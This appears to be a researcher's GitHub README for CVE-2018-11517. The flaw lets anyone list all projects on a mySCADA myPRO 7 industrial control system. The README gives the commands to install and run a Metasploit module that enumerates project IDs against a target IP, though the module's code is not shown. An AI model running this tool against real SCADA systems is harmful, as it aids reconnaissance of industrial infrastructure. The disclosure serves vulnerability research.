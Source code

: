 # mySCADA myPRO 7 - projectID Disclosure

mySCADA myPRO v7.0.46 has another vulnerability to discover all projects in the system.

## CVE-2018-11517
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11517

```
git clone https://github.com/EmreOvunc/mySCADA-myPRO-7-projectID-Disclosure.git
 
cd mySCADA-myPRO-7-projectID-Disclosure/

cp mypro_enum_projectid.rb /usr/share/metasploit-framework/modules/auxiliary/gather/

msfconsole

use auxiliary/gather/mypro_enum_projectid 

set RHOST [IP ADDRESS]

run
```

![alt tag](https://emreovunc.com/images/mySCADA_myPRO7-projectID.png)
-

